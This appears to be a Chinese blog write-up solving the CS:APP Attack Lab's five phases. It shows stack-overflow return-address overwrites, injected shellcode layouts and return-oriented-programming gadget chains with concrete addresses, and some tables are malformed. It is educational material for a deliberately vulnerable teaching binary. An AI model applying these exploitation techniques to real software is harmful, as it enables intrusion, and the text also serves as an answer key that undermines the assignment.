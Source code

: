 # 3-Attack Lab
 ==**1. phase 1**==
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200721155140444.PNG)利用栈溢出覆盖getbuf函数的返回地址
**答案**  前五行是正常写入buf的数据，第六行是touch1的地址0x4017c0,用于覆盖getbuf()函数的正常返回地址。注意写入的数据不能是0x0a，这个数字表述“\n”,Get()函数遇到0xa会终止。
| 栈大小                                                       | 内容               |
| ------------------------------------------------------------ | ------------------ |
| 0x08                                                         | &touch1            |
| 0x28                                                         | buf数据 用0x00填充 |
| ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200721155444448.PNG) |                    |
| ==**2. phase 2**==                                           |                    |
| 注入可执行代码                                               |                    |
| 那么如何让程序去执行我们的代码呢？既然我们可以向栈中写入任意内容并且可以设置返回时跳转到的地址，那么我们就可以通过在栈中写入指令，再令从getbuf函数返回的地址为我们栈中指令的首地址，在指令中执行ret进行第二次返回，返回到touch2函数，就可以实现我们的目的。 |                    |
| 首先查看栈指针%rsp内容 栈的首地址为0x5561dc78                |                    |
| ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200721160835643.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4OTY2ODY3,size_16,color_FFFFFF,t_70) |                    |
| 在栈中写入如下指令对应的二进制内容                           |                    |
```asm
movl 0x59b997fa, %edi  ;touch2 参数 即cookie值
movq 0x5561dc98,%rsp  
retq ; ret指令会取出0x5561dc98的内容，并赋给pc，作为下一指令，
     ; 所以应当在0x5561dc98位置写上touch2函数的地址
```
利用gcc -c 和objdump生成对应指令的二进制代码
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200721161939686.PNG)
所以level2应当写入的内容为
| 栈地址     | 内容                      |
| ---------- | ------------------------- |
| 0x5561dca0 | 0x5561dc78 即该栈的首地址 |
| 0x5561dc98 | &touch2=0x4017ec          |
| 0x5561dc85 | 补零                      |
| 0x5561dc84 | retq                      |
| 0x5561dc7d | mov $0x5561dc98,%rsp      |
| 0x5561dc78 | mov $0x59b997fa,%edi      |

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200721162141868.PNG)
==**3. phase 3**==
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200721200203379.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4OTY2ODY3,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200721200258147.PNG?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4OTY2ODY3,size_16,color_FFFFFF,t_70)
hexmatch()函数中字符串s="59b997fa"
strncmp()函数比较s的sval对应的字符串值，实际上比较的是ASCII码值，所以sval指向的字符串对应的ASCII应当与s相同。栈中保存与"59b997fa"相同的ASCII码值，并将%rdi保存其首地址。写入的数据为 35 39 62 39 39 37 66 61 00
注意 %rsp指针应当在数据部分之下，防止关键数据被覆盖

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200721201556679.PNG)
==**4. phase 4**==
rtarget的phase4和ctarget的phase4一样，要进入touch2函数，并且把cookie作为参数传入函数。唯一有区别的就是rtarget开启了栈随机化，使得我们不能定位我们插入的代码；即使能够定位，强行执行栈里的代码也会引发异常。
把cookie的值通过缓冲区溢出漏洞写入栈，然后再pop出来。 
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200722110602962.PNG)
函数getval_280的部分代码 58 90 c3
```shell
popq %rax	;58
nop			;90
retq		;c3
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200722110157940.PNG)函数setval_426的部分含有代码 48 89 c7 90 c3
```shell
movq %rax,%rdi  ;48 89 c7
nop				;90
retq			;c3
```

+

| 栈大小                                                       | 内容                              |
| ------------------------------------------------------------ | --------------------------------- |
| 0x08                                                         | &touch2 =0x4017ec                 |
| 0x08                                                         | &setval_426+2=0x4019c3+2=0x4019c5 |
| 0x08                                                         | cookie=0x59b997fa                 |
| 0x08                                                         | &getval_280+2=0x4019ca+2=0x4019cc |
| 0x28                                                         | buf数据                           |
| ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200722112736607.PNG) |                                   |
| ==**5. phase 5**==                                           |                                   |
```asm
movq %rsp,%rax		;&addval_190+3=0x401a06
movq %rax,%rdi		;&addval_273+2=0x4019a2
popq %rax		;0x4019ab
movl %eax,%edx	;0x4019dd
movl %edx,%ecx		;0x401a34
movl %ecx,%esi		;0x401a13
lea (%rdi,%rsi,1),%rax	;&add_xy=0x4019d6
movq %rax,%rdi		;0x4019a2
```
| 栈大小                                                       | 内容          |
| ------------------------------------------------------------ | ------------- |
| 0x8                                                          | 补零          |
| 0x8                                                          | cookie的ASCII |
| 0x8                                                          | &touch3       |
| 0x8                                                          | &addval_190+3 |
| 0x8                                                          | &addval_273+2 |
| 0x8                                                          | &addval_219+4 |
| 0x8                                                          | &getval_481+2 |
| 0x8                                                          | &getval_159+1 |
| 0x8                                                          | &addval_436+2 |
| 0x8                                                          | &add_xy       |
| 0x8                                                          | &addval_273+2 |
| 0x28                                                         | buf内容       |
| ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200722152411622.PNG) |               |